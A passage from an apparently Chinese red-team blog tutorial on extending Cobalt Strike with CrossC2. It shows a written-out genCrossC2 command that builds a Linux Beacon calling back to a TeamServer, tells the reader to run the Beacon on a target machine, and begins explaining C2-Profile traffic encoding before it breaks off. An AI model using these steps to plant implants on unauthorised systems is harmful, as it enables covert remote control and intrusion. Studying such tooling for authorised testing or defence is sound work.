 ![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUqR9A4G5T5dy0LebNamc2thT3zyIMjDeu9b5VpoazUqPqMmS4bwiahxQ/640?wx_fmt=png)

将`CrossC2.cna`文件加载到 CobaltStrike 中，之后创建`Https`监听器。  

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUBP71VyZdEmOEfZ9DhYAYpL1ibmPcv9RP7kiblsnBJGiclFBMn6qM74Jzg/640?wx_fmt=png)

生成 Beacon，命令如下 (如果你是 Windows 那就是 genCrossC2.Win.exe)。

`./genCrossC2.MacOS [TeamServer的IP] [HTTPS监听器端口] [.cobaltstrike.beacon_keys文件路径] [自定义的动态链接库文件] [运行Beacon的平台] [运行Beacon的平台位数] [输出的结果文件]`

```
./genCrossC2.MacOS 192.168.225.24 1443 cobaltstrike.beacon_keys null Linux x64 ./test


```

将生成的 Beacon 放到目标机器上去执行即可

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUBWF4071CaI7jwibZEs6pX7ZvuOcIh9cTOngia3icESkOyQdek5TKjQaWg/640?wx_fmt=png)

此时你的 TeamServer 即可支持 Windows、Linux...

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUAaz2kzO7D4MBRib3SnCpYe5pCCXwHicicIR1MWm9mxwHlXVfmAzSjlMyg/640?wx_fmt=png)

存在的问题
=====

上述操作是未带 C2-Profile，实战里相信没有师傅会不带 C2-Profile 就直接冲吧！

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUyTHcprf94qZB5wpkfmLb8M4VibgdrAA3jPZW54oWichiapIqxh1HAlDyQ/640?wx_fmt=png)

直接带上 C2-Profile，CrossC2 所生成的 Beacon 可能无法上线也可能是上线了执行不了命令（这里可以自己尝试一下）。因此 CrossC2 提供通信协议 API 的方式来解决该问题。

一些铺垫
====

在进入正题之前感觉有必要铺垫以下知识点

有 Profile 与无 Profile 对比
-----------------------

先对比一下带 Profile 和不带 Profile 时传递的数据包的差异，这里我以 jquery-c2.4.0.profile 默认配置为例进行解释。

下图是 Beacon 向 TeamServer 发送请求，TeamServer 做回应。

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUib3nzib30jbffurYhlhURia3K77ibK1v2b1gtScqXJFFODCuGwGyqKs7dA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUaXRN191OdwlJTZh23m1CNyYXUsU7N7d5lZltnRPQSwW4ykB8oR3Hqw/640?wx_fmt=png)

C2-Profile

C2-Profile 文件决定了你对元数据使用哪些编码、哪种顺序、拼接哪些字符……，所以这里需要你对它的配置有一些了解。

以`jquery-c2.4.0.profile`默认配置为例，当 Beacon 要发送一个 POST 请求给 TeamServer 时会以`http-post {...}`的配置为准，Beacon 发送 GET 请求给 TeamServer 时以`http-get {...}`的配置为准。
